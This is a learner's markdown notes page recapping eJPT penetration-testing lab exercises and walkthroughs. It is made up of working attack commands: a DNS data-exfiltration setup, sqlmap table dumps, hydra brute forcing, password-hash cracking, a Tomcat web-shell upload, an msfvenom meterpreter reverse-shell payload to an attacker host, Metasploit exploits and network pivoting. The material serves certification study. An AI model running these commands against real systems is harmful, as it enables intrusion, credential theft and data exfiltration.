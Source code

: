 ## eJPT 🛠

Hey Hai, This is just a walkthrough and kinda recap of what in learnt during my INE prep course for Ejpt

### Inbuilt Labs
#### HTTPS Traffic Sniffing
- Once can actually sniff HTTP traffic only in clear using wireshark, we cant examine the HTTPS traffic
- Follow TCP Stream 
#### Find the Secret Server
- sudo ip  route add 192.168.222.0/24 via  10.175.34.1     [sudo ip route add ip/subnet via gateway]
- sudo ip route add 0.0.0.0/0 via 192.168.1.1
#### Data Exfiltration
- Configure the DNS server as attcker IP for Victim machine
- https://github.com/TryCatchHCF/PacketWhisper
- Open python server on attacker machine
- Download the zip on victim machine and run it
- We are good to exflitrate data ;)

#### Burp
- Inspect the website, from that we can able to discover robots.txt
- Using sniper from burp, check all the directories availibility
- Which reveals connections directory as 200, and ?debug is parameter that we came around robots.txt
- Playing around with parameter reveals it can only be set to true
- Set it to true, gives sensitive information back
- Fixing the In Scope
- Target > Site map tab > Spider this host
- Try to bypass the login, using intercept or any other means
- Intruder option and thier positions to attack

#### Scanning and OS Fingerprinting
- fping -a -g 10.142.111.0/24 2> /dev/null
- nmap -sn -n 10.142.111.*    [There is probably a host that does not respond to ICMP echo requests, but that has a service listening on the network.]
- nmap -sS 10.142.111.1,6,48,96,99,100,213  [SYN Scan on Alive Hosts]
#### Nessus
- Advanced Customized Scan
- DISCOVERY -> Host Discovery settings -> Use Fast Network Discovery
#### Dirbuster
- dirb http://172.16.64.140/project/ -u admin:admin 
- gobuster dir -t 50 --w /usr/share/wordlists/dirb/common.txt --url http://172.16.64.81/ -x /,php,txt,bak,old,html,xx
- ffuf -w /usr/share/wordlists/dirb/common.txt -u http://172.16.64.81/FUZZ
#### Sql Injections
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --dbs --dump
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin --tables
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login --coloumns
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login -C username,password,logintime
- Intercept the request using burp, save it to req.txt
- sqlmap -r req.txt -p title  -> focusing cookie based sessions and multi-parameter based queries
#### Brute Force
- hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid Credentials" -L  /usr/share/username.lst -P /usr/share/pass.lst -f -V
- unshadow passwd shadow > hashestocrack
- john hashestocrack     ->password      (username)
- 
### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L [attacker machine IP] -l listening_port -p 80 -r [victim machine IP]
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















